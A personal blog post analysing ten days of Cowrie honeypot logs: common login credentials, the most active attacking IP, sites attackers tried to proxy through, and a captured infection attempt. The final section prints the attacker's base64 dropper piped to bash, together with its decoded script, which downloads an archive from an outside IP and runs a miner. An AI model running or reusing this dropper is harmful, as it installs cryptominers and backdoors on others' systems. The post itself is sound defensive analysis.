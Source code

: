 ```yaml
---
layout: post
title:  "Analyzing Honey Pot data"
---
```

We are going to look through the honey pot data from ```6-4-2019 - 6-13-2019```. I set up a simple honeypot using [Cowrie](https://github.com/cowrie/cowrie). Setting up the honey pot was pretty easy.  I choose this honey pot becuase it had a large following and a bunch of features. Instead of using the suggested output organizer, I have been exporting the logs to my pc every morning and then using ruby scripts I wrote to parse the data.

## Attempted Logins Stats

In Figure 1 we can see that there was a staggering 44k logins with the username ```ruby root```. Which makes sense because a attacker would want root access to the machine so they could bascily do anything they want with the machine. 
![Top to usernames](https://i.imgur.com/hFOtHSN.png=100x20)<br>
Figure 1, Top 10 Username logins

In Figure 1, there was 44,014 logins for root but in Figure 2, there was 44,030 password logins using ```admin```. All the passwords used are common passwords that would be found in a password list. With the expection of password ``` usuario```. After some Googling I found out that it is spanish for ```user```. 
![Top 10 Passwords](https://i.imgur.com/M6kF6cG.png=100x20)<br>
Figure 2. Top 10 Password logins


## Most active IP

In Figure 3, I calculated the most active Ip. This was the Ip that was found the most. We can see that the most active IP is ```58.59.2.26```. That IP was found 199 times. 

![Mot-Active-Ip](https://i.imgur.com/M6kF6cG.png=100x20)<br>
Figure 3, Most Active IP

In Figure 4, I did some research about the IP. The IP is from a Chinese ISP named ```China Telecom Shandong```

![IP-Lookup-58.59.2.26](https://i.imgur.com/AOIiK0Q.png=100x20)<br>
 Ip information for 58.59.2.26<br>
 
 In Figure, 5 is a picture of all the commands that the attacker used on the honeypot.
 
 ![commands-used-by-58.59.2.26](https://i.imgur.com/XOaWK3l.png=100x20)<br>
 Figure 5, List of commands used by 58.59.2.26<br>
 
 It looks like the attacker where just getting information about the box. They did not download or execute anything that would infect or own the system. 

## Other activities 
What I found intresting is that a couple of attackers tired to use it as a proxy. They would request a bunch of sites, mostly cryptocurrency, popular sites such as netflix. But they also where targeting Gift Cards balance checking sites. Some of the sites they tired to use are listed bellow.

```ruby
amidacarecard.com
ya.ru
www.onevanilla.com
www.myvanillabalance.com
chekfast.zennolab.com
www.palotterygiftcard.com
www.mybalancenow.com
www.alabamagiftcard.com
www.wellnesshealthvisacard.com
www.essilorrebatecard.com
www.cfnarewardcard.com
services.incommgateway.com
heck2.zennolab.com
www.pizzahut.com
order.dominos.com
chaturbate.com
www.nrpcard.com
api.bjs.com
www.essilorrebatecard.com
gc.mallofamerica.com
www.mybalancenow.com
google.com
www.google.ca
www.facebook.com
www.pof.com
paxful.com
www.dell.com
www.netflix.com
www.instagram.com
www.pof.de
www.ourtime.com
www.match.com
www.kraken.com
www.footlocker.com
kith.com
```
I used a regex to parse the ```dst_ip``` value. It might have messed some that were unable to match a domain. 


# Malware infection attempt

I wrote a different  post that goes into more details. But when I was viewing the logs I noticed a long string that looks like a base64 string. The base64 encoded string looked like this:
```ruby 
cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
When ran it will download and execute a miner. But it will also add their ssh key to the ```.ssh``` directory. The malware also sets up a hidden SSH sever that allows the attckers to login. Below is the decoded base64 string.
``ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
